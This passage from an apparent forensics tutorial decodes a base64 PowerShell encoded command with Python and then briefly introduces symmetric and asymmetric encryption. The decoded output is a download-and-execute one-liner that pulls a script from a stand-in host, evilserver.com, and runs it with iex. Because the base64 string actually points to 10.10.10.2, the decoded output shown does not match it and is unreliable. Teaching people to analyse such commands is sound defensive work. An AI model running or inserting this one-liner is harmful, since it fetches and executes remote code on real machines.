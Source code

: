 From `encodedcommand` help:

> Accepts a base64-encoded string version of a command.

So we know, after this parameter, follows a base64-encoded command. Perfect, now we know how to decode the string.

On your Linux machine :

```sh
ipython3			# open ipython3 console
```

```python
import base64;

my_string = "YChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLlByb3h5LkNyZWRlbnRpYWxzPVtOZXQuQ3JlZGVudGlhbENhY2hlXTo6RGVmYXVsdE5ldHdvcmtDcmVkZW50aWFscztpd3IoJ2h0dHA6Ly8xMC4xMC4xMC4yL21hbGljaW91c19zY3JpcHQucHMxJyl8aWV4YA=="		
#the string in the command above

base64.b64decode(my_string).decode("utf8")
```

This results in:

```powershell
(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr(\'http://evilserver.com/malicious_script.ps1\')|iex
```

This is a popular PowerShell one-liner script that retrieves a remote payload, `malicious_script.ps1`, on a remote server, `evilserver.com`.

With this result you can immediately help secure your organization by putting this IP on detection and blocking it on your firewalls, while you continue your forensic analysis.





## Encryption

The goal of encryption is to transform the data in a way that only authorized entities (with a key or password) are able to decrypt and read the original content.

This is done by transforming readable information, *plaintext*, into unreadable information, *ciphertext*,  using an algorithm, *cipher*, in order to protect the information during communication.

There is two main encryption techniques: symmetric (or *secret key*) and asymmetric (or *public key*).

![Encryption](/assets/img/Encryption.png)
